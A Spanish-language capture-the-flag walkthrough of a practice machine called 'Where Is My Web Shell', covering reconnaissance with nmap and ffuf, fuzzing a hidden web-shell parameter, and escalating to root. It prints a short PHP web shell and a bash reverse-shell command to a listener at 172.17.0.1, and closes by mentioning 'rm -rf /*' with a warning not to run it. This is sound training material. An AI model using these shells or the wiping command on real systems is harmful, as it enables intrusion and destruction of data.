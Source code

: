 
---------
>Hoy haremos una máquina facilita para reforzar conceptos de web Shell

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell.png)**

>Así que sin mucho más, levantamos la máquina, descomprimiendo el “.zip” y ejecutando el script de automatización:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%201.png)

>Una vez en funcionamiento, verificamos la conexión con la misma, con un ping a la ip:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%202.png)
_(Con esto en pocas palabras; enviamos tramas ICMP “Internet Control Message Protocol” tipo (Echo Request) a la ip victima, esta misma, al estar en funcionamiento, verifica las cabeceras del paquete para determinar que es para ella, y responde con un (Echo Reply).)_

1. _Podemos ver el orden de estas tramas ICMP en el apartado “icmp_seq=”,_
2. _Con el valor de “ttl=” podemos ver el número máximo de saltos que puede dar un paquete antes de descartarse(Por lo general funciona para determinar el sistema operativo víctima)._
3. _Con el valor “time=” podemos ver el tiempo entre el “Echo Request” y el “Echo Reply”)_

>Ya que verificamos la conexión, vamos a por el primer escaneo con nmap, para identificar los puertos abiertos de la máquina, y lo que corre en cada uno de ellos:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%203.png)
1. _-- min-rate 5000 (quiero tramitar mínimo 5000 paquetes por segundo) esto para que el escaneo vaya con bastante agilidad._
2. _-n (no deseo que nmap haga una resolución DNS automática)
3. _-p- (quiero escanear los 65535 puertos del sistema, no los 1000 más comunes, como normalmente hace nmap)._
4. _-Pn (Omite el descubrimiento de Host)_
5. _-sVC (Este concatena el parámetro -sV que realiza un reconocimiento de versiones de servicios, y el parámetro -sC que aplica unos cuantos scripts de reconocimiento propios de nmap_

>Vemos solamente un puerto abierto, con una versión medio actual de Apache. 
>Terminamos con el reconocimiento haciendo una pequeña enumeración a las tecnologías que corren en el servidor web con “whatweb”. Aunque no vemos mucho, podemos ver en el título que se trata de una academia de Inglés:

**![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%204.png)**

>Al inspeccionar la web no encontramos mucho:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%205.png)

>Revisando en código fuente de la pagina vemos un mensaje:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%206.png)
>Probablemente eso nos ayudara mas tarde, por ahora al no ver nada mas, pasamos a hacer un poco de enumeración de directorios y archivos en la web
>Hay muchas herramientas para enumerar directorios; [Dirb]([https://www.kali.org/tools/dirb/](https://www.kali.org/tools/dirb/) ), [Gobuster]([https://github.com/OJ/gobuster](https://github.com/OJ/gobuster) ), [Wfuzz]([https://www.kali.org/tools/wfuzz/](https://www.kali.org/tools/wfuzz/) ), Pero la que yo considero más eficiente es [ffuf]([https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf) ), así que para usarla:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%207.png)
1. _-c Para que se vea bonito con colorcitos_ ╰(*°▽°*)╯
2. _-w Para especificar el diccionario que se probará en la url (uso un diccionario de [Seclists](https://github.com/danielmiessler/SecLists) _)_
3. _-t para indicarle la cantidad de hilos (tareas múltiples) que deseo para la tarea a realizar, en este caso 200_
4. _-u indicamos la url a atacar, con la palabra interna FUZZ le indicamos a la herramienta la parte de la url que debe ser cambiada por las palabras del el diccionario._
5. _-e indicamos diferentes terminaciones que deseamos agregar a cada iteración en el diccionario, mientras que las comillas vacías hacen referencia a probar la palabra sin ninguna terminación (ej: -e .txt,.php,”” Probará en la web: palabra.txt, palabra .php y palabra)_

>Encontramos dos archivos interesantes:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%208.png)

>El segundo archivo nos dice esto:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%209.png)

>Si la web tiene una webshell, esta misma necesitaría de un parámetro especifico para funcionar correctamente. Tal vez por ello "ffuf" encontró el archivo “shell.php” pero nos da un código de estado 500 "Internal Server Error". Es decir, el archivo existe, pero no podemos acceder correctamente a él.

>La web shell funciona de esta manera:

```php
<?php
echo "<pre>" . shell_exec($_REQUEST["parametro__cualquiera"]) . "</pre>";
?>
```
_En php $_REQUEST recoge información de un "parámetro_cualquiera", y la función "shell_exec" ejecuta lo proporcionado directamente en el sistema. Es decir, en teoría, si encontramos el parámetro y le pasamos un valor “whoami”, $_REQUEST recogerá ese dato, y "shell_exec" lo ejecutara en el sistema, para que finalmente (como todo está dentro de un “echo”) mostrarse en pantalla la respuesta www-data

>Así que, para llegar a nuestro posible parámetro, vamos a cambiar el funcionamiento del fuzzing que hicimos antes:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2010.png)
_La estructura usual en la que un archivo ".php" recibe un parámetro desde la URL es:
```
http://URL/archivo.php?parámetro=valor_del_parametro”
```
Así que la parte que debemos fuzzear cambia. También, agregamos la flag "-fc 500" para ocultar los resultados que nos devuelvan un código de estado “internal server error” (500).

>Encontramos uno:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2011.png)

>El parámetro es “parameter” :3, probémoslo en la web:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2012.png)

>Tenemos un RCE (remote code execution), podemos ejecutar comandos en la web. Sin perder tiempo, vamos a obtener una reverse Shell. 
>Para obtener un payload de webshell te recomiendo la pagina [https://www.revshells.com/](https://www.revshells.com/). Usaremos el siguiente payload:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2013.png)

>Primero, debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 1234 con “nc”:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2014.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 1234

>Ya que nuestra máquina está escuchando, podemos inyectar el payload, aunque un poco diferente para que funcione correctamente desde la URL:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2015.png)
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._

>Con todo ello, ya entramos al sistema :3:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2016.png)

>Tratamos un poco la Shell para que sea un poco más funcional:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2017.png)
_Aquí, le estamos diciendo a la Shell que deseamos que la variable de entorno TERM(responsable de especificar el tipo de terminal usado), sea igual a Xterm._
_Sí TERM no se establece o está mal establecido en la máquina, cosas como clear, nano, vim, less, no funcionan correctamente._

>Revisamos según la pista que nos dejaron en el código fuente de la web el directorio /tmp:

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2018.png)

>Nos encontramos un archivo oculto (para listar archivos que están ocultos de manera eficiente en un directorio en especial, puedes usar el comando ls con las flags -l -a -h)

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2019.png)

>Ya con la contraseña de root en texto claro, tenemos la máquina :3

![Where Is My Web Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2020.png)

O.O   //El comando "rm -rf /*" ejecutado como administrador borra todos los archivos del sistema, es un pequeño guiño al ganar acceso como root a una máquina, NO LO EJECUTES//   O.O
